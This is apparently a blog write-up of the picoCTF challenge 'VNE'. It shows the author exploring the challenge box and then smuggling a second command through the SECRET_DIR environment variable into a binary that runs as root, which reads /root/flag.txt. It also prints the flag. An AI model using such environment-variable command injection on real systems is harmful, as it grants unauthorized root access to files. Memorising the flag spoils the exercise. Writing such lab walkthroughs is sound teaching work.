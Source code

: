 ```yaml
---
layout: post
title:  "VNE"
subtitle: 2024-08-21
date:   2024-08-21
description: Abusing environment variables
tags: ["Binary", "Environment", "Injection", "Easy"]
category: [CTF,picoCTF]
---
```


# Challenge Info
description: `This’ve got a binary that can list directories as root, try it out !! ssh to saturn.picoctf.net:59803, and run the binary named “bin” once connected. Login as ctf-player with the password, af86add3`

author: Junias Bonou

![vne](/assets/img/VNE/vne.png)

## Attempts
Upon connecting, I ran `pwd` and `ls` to see what we have:

```
ctf-player@pico-chall$ pwd
/home/ctf-player
ctf-player@pico-chall$ ls
bin
```
I tried navigating around with `cd`, until I finally found something interesting:
```
ctf-player@pico-chall$ cd ..
ctf-player@pico-chall$ ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
ctf-player@pico-chall$ cd challenge
-bash: cd: challenge: Permission denied
```
A challenge folder, which the flag is probably inside of. Unfortunately, we can't navigate into it. Next, I tried seeing if sudo was available, to no success.

```
ctf-player@pico-chall$ sudo
-bash: sudo: command not found
ctf-player@pico-chall$
```

Finally, I want back to ctf-player to try and execute the binary we're given. Unfortunately, upon trying to execute it, I'm met with a problem:

```
ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$
```
Okay, so lets try setting the `SECRET_DIR` environment variable:

```
ctf-player@pico-chall$ export SECRET_DIR=/
ctf-player@pico-chall$ ./bin
Listing the content of / as root:
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
ctf-player@pico-chall$
```

## Understanding the Challenge
The binary called "bin" that we've been executing, reads directories with root permissions, so when we set `SECRET_DIR=/`, it read everything in / as root. Using this information, we can use the environment variable to poke around different directories, starting with `/challenge`:

```
ctf-player@pico-chall$ export SECRET_DIR=/challenge
ctf-player@pico-chall$ ./bin
Listing the content of /challenge as root:
config-box.py  metadata.json  profile
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-call$ ./bin
Listing the contents of /root as root:
flag.txt
ctf-player@pico-chall$
```

So, while `/challenge` didn't yield any success, `/root` shows us where the flag is, and that it's in a `.txt`. Which is great and all, but how can we actually read the contents of it? As seen previously, `bin` only reads directories, so it doesn't serve any use... unless we can chain commands...

## Solution

```
ctf-player@pico-chall$ export SECRET_DIR="ls /root | cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of ls /root | cat /root/flag.txt as root:
picoCTF{Power_t0_man!pul4t3_3nv_1670f174}ls: cannot access 'ls': No such file or directory
ctf-player@pico-chall$
```

flag: `picoCTF{Power_t0_man!pul4t3_3nv_1670f174}`
